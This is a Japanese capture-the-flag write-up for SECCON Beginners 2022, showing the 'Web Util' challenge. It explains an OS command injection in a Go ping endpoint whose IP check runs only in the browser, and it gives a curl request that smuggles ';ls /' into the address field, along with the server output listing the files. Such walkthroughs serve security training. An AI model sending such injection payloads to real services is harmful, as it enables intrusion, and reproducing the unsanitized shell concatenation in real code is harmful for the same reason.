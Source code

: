 * [Web Util](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#web-util)
* [gallery](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#gallery)
* [textex](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#textex)
* [phisher](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#phisher)
* [H2](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#h2)
* [hitchhike4b](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#hitchhike4b)
* [Quiz](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#quiz)
* [CoughingFox](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#coughingfox)
* [Command](https://github.com/xryuseix/CTF_Writeups/tree/master/ctf4b2022#command)

## 

### Web Util

IPアドレスを入力すると、そのアドレスに対してpingを投げるプログラムとなっている。サーバが実際に実行するコマンドは以下の通りである。

```go
commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
```

`param.Address`は好きに決定できるので、例えば`param.Address`に`127.0.0.1;ls`と入力すれば`commnd := "ping -c 1 -W 1 127.0.0.1;ls 1>&2"`となってOSコマンドインジェクションが成立する。しかし、実際に`127.0.0.1;ls`を入力すると`Invalid IP address`と出力されてしまいます。

![WebUtil-1](WebUtil-1.png)

しかし、フロントエンドのソースコードを以下のような記述があります。

```js
if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address))
```

つまり、IPアドレスのvalidationはフロントエンドで実行されていました。よってえ、curlで直接実行してみます。

`curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H 'Content-Type: application/json' --data-raw '{"address":"127.0.0.1;ls /"}'`

出力は以下の通りである。。

```json
{
   "result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.130 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.130/0.130/0.130 ms\napp\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"
}
```
